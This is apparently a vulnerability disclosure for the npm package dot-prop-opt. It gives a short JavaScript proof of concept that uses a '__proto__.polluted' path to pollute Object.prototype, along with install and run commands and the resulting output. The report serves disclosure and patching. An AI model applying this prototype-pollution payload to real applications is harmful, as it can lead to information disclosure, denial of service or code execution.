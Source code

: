 # Description

`dot-prop-opt` is vulnerable to `Prototype Pollution`.

# Proof of Concept

1. Create the following PoC file:
```javascript
// poc.js
const { set } = require('dot-prop-opt')

console.log(`Before: ${{}.polluted}`)
set({}, '__proto__.polluted', true)
console.log(`After: ${{}.polluted}`)
```
2. Execute the following commands in the terminal:
```bash
npm i dot-prop-opt # install vulnerable package
node poc.js # run the PoC
```
3. Check the output:
```
Before: undefined
After: true
```

# Impact

`Prototype Pollution` leads to Information Disclosure/DoS/RCE.

